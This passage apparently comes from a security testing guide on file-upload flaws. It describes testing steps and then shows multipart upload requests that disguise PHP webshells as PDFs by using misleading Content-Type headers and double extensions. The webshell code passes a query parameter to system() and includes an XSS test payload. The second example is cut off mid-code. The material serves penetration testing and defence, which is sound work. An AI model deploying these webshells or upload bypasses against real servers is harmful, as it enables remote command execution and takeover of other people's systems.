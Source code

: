 **Specific Testing Method 2**

- Develop or create a file that should fail the application malware detection process. There are many available on the Internet such as ducklin.htm or ducklin-html.htm.
- Submit the executable via the application’s upload functionality and see if it is accepted or properly rejected.

**Specific Testing Method 3**

- Set up the intercepting proxy to capture the “valid” request for an accepted file.
- Send an “invalid” request through with a valid/acceptable file extension and see if the request is accepted or properly rejected.

Example of Content Type for request:

```
Content-Disposition: form-data; name="file"; filename="documento.php"
Content-Type: application/pdf

text/x-php
```

Example of Webshell content:

```
Content-Disposition: form-data; name="file"; filename="smtW3sGGkAyx0YHhV689GsTHkqMaKeIdGXycIgHX1.pdf.pdf.html"
Content-Type: application/pdf

%PDF-1.4
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<p>This is an example of webshell to execute commands in remote server:</p>
<pre>
<?php
   if(isset($_GET['cmd']))
   {
       system($_GET['cmd']);
   
?>
<script>javacript:alert('XSS PAYLOAD')</script>
</pre>
</body>
</html>
%%EOF
```
Other example of webshell:

```
Content-Disposition: form-data; name="file"; filename="smtW3sGGkAyx0YHhV689GsTHkqMaKeIdGXycIgHX1.pdf.pdf.exe"
Content-Type: application/pdf

%PDF-1.4
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<p>This is an example of webshell to execute commands in remote server:</p>
<pre>
<?php
   if(isset($_GET['cmd']))
```